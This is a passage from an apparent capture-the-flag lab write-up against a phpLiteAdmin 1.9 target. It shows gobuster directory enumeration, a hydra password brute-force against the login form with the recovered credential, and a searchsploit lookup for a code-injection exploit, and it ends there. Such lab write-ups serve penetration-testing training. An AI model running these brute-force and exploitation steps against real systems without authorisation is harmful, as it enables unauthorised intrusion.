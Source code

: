 ```
[+] Files and directories
gobuster dir -k -u https://10.10.10.43:443 -w /usr/share/seclists/Discovery/Web-Content/common.txt
<snip>
===============================================================
/.hta                 (Status: 403) [Size: 291]
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/db                   (Status: 301) [Size: 309] [--> https://10.10.10.43/db/]
```

phpLiteAdmin 1.9 at `/db`.

![](images/4.png)

Try to brute force phpLiteAdmin password with hydra using `rockyou.txt` directory.

```
┌──(Hades㉿10.10.14.5)-[1.9:32.3]~
└─$ hydra -l admin -P /home/kali/directory/rockyou.txt 10.10.10.43 https-post-form '/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password.'
<snip>
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
```

Search the public exploit with `searchsploit`.

```
┌──(Hades㉿10.10.14.5)-[1.9:25.1]~/scripting
└─$ searchsploit phpLiteAdmin 1.9
-------------------------------------------- ---------------------------------
 Exploit Title                              |  Path
-------------------------------------------- ---------------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Inject | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabiliti | php/webapps/39714.txt
-------------------------------------------- ---------------------------------
Shellcodes: No Results
```
